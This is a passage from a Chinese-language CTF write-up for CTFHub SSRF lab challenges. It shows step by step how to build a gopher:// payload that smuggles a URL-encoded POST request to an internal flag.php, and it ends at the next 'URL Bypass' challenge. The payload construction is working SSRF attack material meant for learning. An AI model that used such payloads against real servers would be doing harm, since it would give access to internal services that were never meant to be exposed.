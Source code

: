 ```
curl_close($ch); 
```

index中明显提到如果不设置location就会被一直重定向到这个?url=_这个页面

2.关于flag.php：

你需要post传入key的值

`?url=127.0.0.1/flag.php`

```
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=0d6a7b9d0c4718d8fa37ad3f9d527d24-->
</form> 
```

3.利用gopher协议去传入post值

首先想要gopher协议传入post值需要提前准备`Content-Type`,`Content-Length`,`host`,`post`的参数，这个通过burp获取：

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36 
Content-Type: application/x-www-form-urlencoded 

key=0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

其中细节：

每个参数之间是需要回车换行的所以要紧跟%0d%0a

构造POST请求：

```
POST%20%2Fflag.php%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%3A80%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2036%0A%0Akey%3D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

换行处理：

```
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A%2036%0D%0A%0D%0Akey%3D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

payload构造：

```
?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520http%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

### URL Bypass

描述：请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧
